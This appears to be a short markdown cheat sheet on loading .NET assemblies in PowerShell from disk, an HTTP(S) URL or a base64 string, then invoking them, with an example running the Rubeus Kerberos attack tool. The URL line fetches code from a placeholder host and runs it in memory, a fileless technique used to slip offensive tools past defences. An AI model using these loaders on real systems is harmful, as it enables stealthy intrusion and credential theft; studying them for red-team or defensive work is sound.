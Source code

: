 # *PowerShell* Assembly Loading

## Loading

### Disk
```powershell
[System.Reflection.Assembly]::LoadFrom('<path_to_file>')
```

### HTTP(S) URL
```powershell
[System.Reflection.Assembly]::Load((Invoke-WebRequest '<http(s)>://<host>:<port>/<uri>').Content)
```

### Base64
```powershell
[System.Reflection.Assembly]::Load([Convert]::FromBase64String('<base64_string>'))
```

***

## Execution
```powershell
# [<PublicNamespace>.<PublicClass>]::Function(<arguments>)
[Rubeus.Program]::Main("klist")
```